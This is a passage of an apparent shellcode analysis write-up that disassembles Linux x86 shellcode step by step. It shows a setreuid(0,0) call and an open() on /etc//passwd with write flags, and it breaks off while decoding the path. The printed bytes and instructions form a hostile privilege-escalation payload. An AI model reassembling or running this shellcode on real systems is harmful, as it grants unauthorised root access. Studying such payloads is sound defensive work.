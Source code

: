 We can see multiple int 0x80's at:

  00000007
  
  00000023
  
  00000054
  
  00000059

These will be our focus points for the analysis so we can figure out which syscalls are happening throughout the shellcode.
```
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
```
We zero out both ECX and EBX.

Then EAX is set to 0x46
```shell
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 70
#define __NR_setreuid 70
```
So our syscall here is setreuid with args - 0 and 0
> int setreuid(uid_t ruid, uid_t euid);

> setreuid(0, 0);

What this call does is sets our process to run as both real and effective id - 0 (root).

Our next syscall block is:
```nasm
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
```
We see EAX being set to 0x5.  Let's check which syscall that is..
```shell
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 5
#define __NR_open 5
```
Open is defined as:
```c
int open(const char *pathname, int flags);
```
The next instructions:
```nasm
xor,ecx ecx
push ecx
push dword 0x64777373
push dword 0x61702f2f
push dword 0x6374652f
mov ebx, esp
```
This is pushing a string to the stack and terminating it with a null byte (ECX).  The stack pointer address is then moved into EBX, which will be the first parameter of open -- the pathname.  So we should expect a filename when we change the hex values to ascii.  
```
>>> binascii.unhexlify('6374652f')
```
